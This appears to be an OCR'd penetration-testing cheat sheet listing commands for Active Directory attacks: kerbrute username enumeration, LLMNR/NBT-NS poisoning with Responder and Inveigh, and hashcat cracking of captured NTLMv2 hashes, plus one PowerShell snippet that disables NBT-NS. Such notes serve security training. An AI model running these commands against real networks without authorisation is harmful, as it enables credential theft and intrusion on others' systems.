 ```
sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
```
> Used to move the Kerbrute binary to a directory can be set to be in a Linux user's path. Making it easier to use the tool.

```
./kerbrute_linux_amd64 userenum -d abc.com --dc 10.10.10.10 abc.txt -o kerb-results
```
> Runs the Kerbrute tool to discover usernames in the domain  specified proceeding the -d option and the associated domain controller specified proceeding --dcusing a wordlist and outputs (-o) the results to a specified file. Performed from a Linux-based host.  

* * *

## LLMNR/NTB-NS Poisoning

* * *

```
responder -h
```
> Used to display the usage instructions and various options available in Responder from a Linux-based host.

```
hashcat -m 5600 _hash_ /usr/share/wordlists/rockyou.txt
```
> Uses hashcat to crack NTLMv2 (-m) hashes that were captured by responder and saved in a file. The cracking is done based on a specified wordlist.

```
Import-Module .\Inveigh.ps1
```
> Using the Import-Module PowerShell cmd-let to import the Windows-based tool Inveigh.ps1.

```
(Get-Command Invoke-Inveigh).Parameters 
```
> Used to output many of the options & functionality available with Invoke-Inveigh. Peformed from a Windows-based host.

```
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
> Starts Inveigh on a Windows-based host with LLMNR & NBNS spoofing enabled and outputs the results to a file.

```
.\Inveigh.exe 
```
> Starts the C# implementation of Inveigh from a Windows-based host.

```
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces" Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```
> PowerShell script used to disable NBT-NS on a Windows host.
